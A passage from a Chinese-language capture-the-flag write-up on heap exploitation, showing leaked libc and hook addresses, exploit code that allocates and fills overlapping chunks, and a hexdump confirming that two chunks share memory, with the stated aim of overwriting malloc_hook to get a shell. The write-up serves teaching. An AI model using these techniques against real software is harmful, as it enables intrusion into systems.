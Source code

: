 输出内容为：

```python
[*] Leak is:        0x7f112fb5ab78
[*] libc is:        0x7f112f797000
[*] System is:      0x7f112f7dc26a
[*] Malloc hook is: 0x7f112fb5ab10
[*] Free hook is:   0x7f112fb5c7a8
[*] Fake chunk location is:  0x7f112fb5aaed
```

下一步需要将malloc_hook的内容修改为getshell的地址，使用

```python
alloc(0x80) # Chunk 4(和2是同一块内存，并且2 4都是程序中的有效块)
alloc(0x60) # Chunk 5
alloc(0x60) # Chunk 6
fill(4, 0x80, "4"*0x80)
fill(2, 0x40, "2"*0x40)
fill(5, 0x60, "5"*0x60)
fill(6, 0x60, "6"*0x60)
dump2 = dump(2)
print(dump2)
print(hexdump(dump2)) # 4和2是同一块内存，并且2 4都是程序中的有效块
dbg=1

# print(hexdump(dump2))的结果为：
00000000  32 32 32 32  32 32 32 32  32 32 32 32  32 32 32 32  │2222│2222│2222│2222│
*
00000040  34 34 34 34  34 34 34 34  34 34 34 34  34 34 34 34  │4444│4444│4444│4444│
*
00000080  0a                                                  │·│
```

运行后结果如图所示，可以观察到Chunk2和Chunk4使用的是同一块内存区域，因为刚才的1的操作，导致2在内存中误以为是可用的，所以分配给了4。
